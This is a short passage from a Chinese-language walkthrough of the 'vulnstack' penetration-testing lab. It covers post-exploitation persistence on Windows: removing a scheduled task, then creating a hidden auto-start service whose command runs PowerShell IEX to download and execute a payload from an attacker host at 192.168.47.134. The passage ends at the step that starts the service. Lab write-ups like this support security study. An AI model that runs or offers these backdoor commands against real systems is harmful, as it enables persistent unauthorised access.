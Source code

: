 <img src="vulnstack靶场系列一/image-20221016223255979.png" alt="image-20221016223255979" style="zoom:67%;" />	

<br>

若要清除计划任务执行以下命令

```
schtasks /delete /s 192.168.52.138 /tn "test" /f
```

<br>

### 创建windows服务

使用sc命令创建一个名为"name"的服务, 设置开机后门脚本程序自启动, 注意将powershell命令行替换成自己的

```
shell sc create "name" binpath= "cmd /c start powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.47.134:80/a'))\""
```

<br>

设置name服务自启动		

```
shell SC config "name" start= auto
```

<br>

设置服务的描述内容

```
shell SC description "name" "description"
```

<br>

启动服务
